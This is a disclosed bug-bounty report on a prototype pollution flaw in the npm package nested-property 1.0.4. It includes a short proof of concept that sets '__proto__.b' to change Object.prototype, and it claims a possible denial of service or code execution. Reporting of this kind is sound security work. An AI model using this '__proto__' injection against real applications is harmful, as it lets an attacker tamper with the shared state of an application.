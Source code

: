 # [nested-property] Prototype Pollution

## Report Details
- **Report ID**: 788883
- **URL**: https://hackerone.com/reports/788883
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-04T16:00:49.360Z
- **Disclosed**: 2020-10-27T10:54:45.312Z

## Reporter
- **Username**: johnssimon007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi team,
I would like to report a prototype pollution vulnerability in nested-property
that allows an attacker to modify properties on Object.prototype.

Module name:nested-property
version: 1.0.4
npm page: https://www.npmjs.com/package/nested-property

Module Description
Read, write or test a data structure's nested property via a string like 'my.nested.property'. It works through arrays and objects.

 Module Stats

> Replace stats below with numbers from npm’s module page:

[1] weekly downloads :81,395

# Vulnerability

## Vulnerability Description
the vulnerabilty is similar to what  reported in https://hackerone.com/reports/719856
nestedproperty module  is vulnerable when it performs a set operation for nested objects

## Steps To Reproduce:


## Supporting Material/References:

var nestedProperty = require("nested-property");
const object = {};
object.b=true;
console.log("Before " + object.b); // will log true
nestedProperty.set(object, '__proto__.b', false);
console.log("After " + {}.b); // will log false

- [OPERATING SYSTEM VERSION] Ubuntu 16.04
- [NODEJS VERSION]  10.16
- [NPM VERSION] 6.90

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N 

> Hunter's comments and funny memes goes here

https://media1.tenor.com/images/dc2899b4432861e0ce1b9a03d8c98719/tenor.gif

## Impact

This might causes Denial of Service or RCE in some cases

## Attachments
No attachments
